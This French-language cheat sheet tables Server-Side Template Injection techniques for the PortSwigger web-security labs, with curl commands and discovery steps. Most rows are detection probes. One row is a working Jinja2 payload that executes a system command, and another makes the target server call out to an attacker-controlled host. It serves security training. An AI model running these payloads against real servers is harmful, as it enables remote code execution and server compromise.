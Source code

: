 # SSTI 

Voici un tableau synthétique pour l’analyse et la découverte des failles SSTI (Server-Side Template Injection) sur les labs PortSwigger, **avec des commandes curl différenciées pour l’attaque et l’analyse** selon chaque cas, des charges utiles neutres, et des explications claires en français :

| Type / Lab                               | Payload d’attaque neutre (exemple) | Commande d’attaque (curl)                                                                                      | Commande(s) d’analyse curl                                                                                  | Élément d’analyse (raison préalable)                          | Méthodologie détaillée de découverte                                                                                   | URL PortSwigger ou source utile                                      |
|-------------------------------------------|-------------------------------------|----------------------------------------------------------------------------------------------------------------|-------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------|---------------------------------------------------------------------|
| SSTI basique (réponse visible)            | {{7*7}}                             | curl -X POST -d "name={{7*7}}" https://LAB/submit                                                              | curl -X POST -d "name=test" https://LAB/submit                                                              | Affichage d’un résultat calculé dans la réponse                | Injectez une expression simple dans un champ affiché côté serveur. Comparez la réponse avec une valeur neutre. Si le calcul s’affiche (ex : 49), la faille est présente. | https://portswigger.net/web-security/server-side-template-injection/lab-server-side-template-injection-basic |
| SSTI avec erreur (détection moteur)        | {{aaaa}}                            | curl -X POST -d "name={{aaaa}}" https://LAB/submit                                                             | curl -X POST -d "name=test" https://LAB/submit                                                              | Message d’erreur spécifique au moteur de template              | Injectez une expression ou variable inconnue pour provoquer une erreur. Analysez le message d’erreur pour identifier le moteur utilisé (Jinja2, Twig, Freemarker, etc.). | https://portswigger.net/web-security/server-side-template-injection |
| SSTI sandboxée (tentative d’évasion)       | {{config.items()}}                  | curl -X POST -d "name={{config.items()}}" https://LAB/submit                                                   | curl -X POST -d "name=test" https://LAB/submit                                                              | Affichage d’objets internes ou d’erreur de sandbox             | Injectez une expression visant à accéder à des objets internes ou à sortir du sandbox. Comparez la réponse à une requête neutre pour détecter une fuite d’info ou une erreur. | https://portswigger.net/web-security/server-side-template-injection |
| SSTI RCE (exécution de commande)           | {{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read()}} | curl -X POST -d "name={{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read()}}" https://LAB/submit | curl -X POST -d "name=test" https://LAB/submit                                                              | Affichage du résultat d’une commande système                   | Injectez une payload permettant d’exécuter une commande système (selon le moteur). Si le résultat de la commande s’affiche, la faille permet une RCE. | https://portswigger.net/web-security/server-side-template-injection |
| SSTI aveugle (time-based)                  | {{range(10**8)}}                    | curl -X POST -d "name={{range(10**8)}}" --max-time 15 -w "%{time_total}\n" https://LAB/submit                  | curl -X POST -d "name=test" --max-time 15 -w "%{time_total}\n" https://LAB/submit                            | Temps de réponse anormalement long                              | Injectez une expression qui provoque un délai d’exécution. Comparez le temps de réponse à une requête neutre. Un délai anormal indique une SSTI aveugle. | https://portswigger.net/web-security/server-side-template-injection |
| SSTI avec interaction externe (OAST)        | {{cycler.__init__.__globals__.os.system('curl http://votre-serveur.com/ssti')}} | curl -X POST -d "name={{cycler.__init__.__globals__.os.system('curl http://votre-serveur.com/ssti')}}" https://LAB/submit | Surveillez les requêtes sur votre serveur externe (tcpdump, Burp Collaborator, logs web)                    | Détection d’une requête sortante sur votre serveur              | Injectez une commande qui force le serveur à contacter une URL que vous contrôlez. Surveillez votre serveur pour détecter une connexion sortante (preuve d’exécution de la commande). | https://portswigger.net/web-security/server-side-template-injection |

---


